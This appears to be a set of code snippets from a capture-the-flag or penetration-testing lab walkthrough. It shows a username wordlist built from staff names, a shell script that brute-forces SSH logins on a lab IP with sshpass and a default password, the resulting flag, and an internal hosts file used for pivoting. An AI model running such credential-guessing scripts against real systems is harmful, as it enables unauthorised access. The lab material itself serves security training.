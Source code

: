 ```text
randycarlson
rcarlson
developer
pabloroberts
pablo
roberts
proberts
founder
bessiehammond
bessie
hammond
bhammond
programmer 
gerardomalone
gerardo
malone
gmalone
juniordesigner
junior
designer
sabrina 
summers
sabrinasummers
ssummers
analyst
```

```bash
#!/bin/sh

for user in $(cat users.txt); 
do
    echo "Trying '$user'..."
    sshpass -p CHANGEME ssh -p 2222 $user@172.16.64.166 2>/dev/null
    if [ $? -eq 0 ]; then
        exit
    fi
done;
```

```bash
sabrina@xubuntu:~$ cat flag.txt 
Congratulations! You have successfully exploited this machine.
Go for the others now.
```

```text
sabrina@xubuntu:~$ cat hosts.bak 
127.0.0.1       localhost
172.16.64.81    cms.foocorp.io
172.16.64.81    static.foocorp.io

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
